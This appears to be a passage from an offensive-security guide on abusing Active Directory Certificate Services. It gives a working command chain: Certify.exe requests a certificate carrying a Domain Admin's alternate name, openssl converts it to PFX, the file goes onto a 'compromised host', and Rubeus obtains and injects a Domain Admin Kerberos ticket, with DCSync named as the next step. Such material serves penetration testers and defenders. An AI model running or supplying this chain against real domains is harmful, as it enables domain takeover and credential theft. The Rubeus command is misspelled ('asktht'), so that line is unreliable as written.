 Request the DA's Account Certificate with Certify

```powershell
.\Certify.exe request /template:<Template Name> /quiet /ca:"<CA Name>" /domain:<domain.com> /path:CN=Configuration,DC=<domain>,DC=com /altname:<Domain Admin AltName> /machine
```

⧉ Copied!

This should return a valid certificate for the associated DA account.

The exported `cert.pem` and `cert.key` files must be consolidated into a single `cert.pem` file, with one gap of whitespace between the `END RSA PRIVATE KEY` and the `BEGIN CERTIFICATE`.

*Example of `cert.pem`:*

```
-----BEGIN RSA PRIVATE KEY-----
BIIEogIBAAk15x0ID[...]
[...]
[...]
-----END RSA PRIVATE KEY-----

-----BEGIN CERTIFICATE-----
BIIEogIBOmgAwIbSe[...]
[...]
[...]
-----END CERTIFICATE-----
```

⧉ Copied!

#Utilize `openssl` to Convert to PKCS #12 Format

The `openssl` command can be utilized to convert the certificate file into PKCS #12 format (you may be required to enter an export password, which can be anything you like).

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

⧉ Copied!

Once the `cert.pfx` file has been exported, upload it to the compromised host (this can be done in a variety of ways, such as with Powershell, SMB, `certutil.exe`, Cobalt Strike's upload functionality, etc.)

After the `cert.pfx` file has been uploaded to the compromised host, [Rubeus](https://github.com/GhostPack/Rubeus) can be used to request a Kerberos TGT for the DA account which will then be imported into memory.

```powershell
.\Rubeus.exe asktht /user:<Domain Admin AltName> /domain:<domain.com> /dc:<Domain Controller IP or Hostname> /certificate:<Local Machine Path to cert.pfx> /nowrap /ptt
```

⧉ Copied!

This should result in a successfully imported ticket, which then enables an attacker to perform various malicious acitivities under DA user context, such as performing a DCSync attack.
